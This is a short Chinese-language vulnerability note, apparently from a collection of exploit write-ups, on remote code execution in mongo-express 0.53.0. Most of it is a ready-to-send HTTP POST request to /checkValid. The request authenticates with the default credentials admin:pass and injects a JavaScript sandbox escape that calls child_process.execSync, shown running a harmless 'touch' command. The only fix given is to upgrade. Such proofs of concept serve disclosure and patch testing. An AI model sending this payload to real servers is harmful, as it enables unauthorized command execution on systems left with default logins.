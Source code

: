 ### 一 漏洞描述
mongo-express是一款mongodb的第三方Web界面，使用node和express开发。

如果攻击者可以成功登录，或者目标服务器没有修改默认的账号密码（admin:pass），则可以执行任意node.js代码。

mongo-express 0.53.0

### 二 漏洞利用
```
POST /checkValid HTTP/1.1
Host: 目标ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Basic YWRtaW46cGFzcw==
Content-Type: application/x-www-form-urlencoded
Content-Length: 124

document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("touch /tmp/success")
```

### 三 漏洞修复
升级

> 参考链接  
> https://www.cnblogs.com/null1433/p/12740333.html
